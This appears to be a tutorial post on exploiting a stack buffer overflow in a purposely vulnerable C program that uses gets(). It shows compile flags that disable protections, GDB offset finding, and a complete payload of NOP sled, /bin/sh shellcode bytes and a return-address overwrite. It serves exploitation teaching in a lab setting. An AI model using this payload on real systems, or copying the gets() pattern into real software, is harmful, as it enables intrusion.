



# ShellCode Execution
we’ve focused on redirecting execution using return address overwrites (like in ret2win). But in real-world exploitation, sometimes we neeed to inject our own code.

In this post, we’ll learn how to execute shellcode by overflowing a buffer and hijacking the program flow.

## The Vulnerable Program
Here’s a simple C program that reads input into a buffer using the unsafe gets() function:
```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// Vulnerable function
void vuln() {
    char buffer[100];

    printf("Input: ");
    gets(buffer);  // ⚠️ Vulnerable to buffer overflow
}

int main() {
    vuln();
    return 0;
}
```

## Compilation
We need to disable protections that would block shellcode from executing on the stack:
```
gcc -fno-stack-protector -z execstack -no-pie -o shellcode shellcode.c
```

- `-fno-stack-protector`: disables stack canary
- `-z execstack`: allows execution from stack
- `-no-pie`: disables address randomization in binary

## The Shellcode Payload
We'll use shellcode that spawns a shell (/bin/sh), prepended by a NOP sled and followed by padding + return address overwrite.

Here's a Python one-liner that constructs such a payload:
```python
python3 -c "import sys; sys.stdout.buffer.write(
b'\x90'*20
+
shell_code
+ 
b'A'*(buffer_bytes_here)
+ 
b'return address'
)" | ./shellcode
```

## Calculating the buffer offset
We first run the program in GDB using
```
gdb ./vuln
```

- Disassemble vuln function
- We can see that the stack is of 0x70 (112 bytes) in vuln function



- So we need to send 112 bytes in buffer to overflow this stack

## Finding the return address
We need to return from vuln function to the address in stack where our shell code is present.

- So, we need to find that address
- Since, our shell code send 20 `\x90` `nop` bytes, hence we can look for these nop bytes and then return to this address
- The nop bytes would simple be passed over leading to our shell code in the stack

- First, we'll send random return address
```
python3 -c "import sys; sys.stdout.buffer.write(
    b'\x90'*20 +
    shell_code +
    b'A' * (112) +
    b'return_address'
)" > payload
```
```
gdb ./vuln
```
```
run < payload
```

- analyzing the stack we see that our `nop` bytes start from `0x7fffffffdbe0`


- So we can enter this as return address in little endian format
- The final payload will be

```
python3 -c "import sys; sys.stdout.buffer.write(
    b'\x90'*20 +
    shell_code
    +
    b'A' * (112) +
    b'\xe0\xdb\xff\xff\xff\x7f\x00\x00'
)" > payload
```

- so final payload is
```
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe0\xdb\xff\xff\xff\x7f\x00\x00'
```

- Running the program with this payload, we got the shell

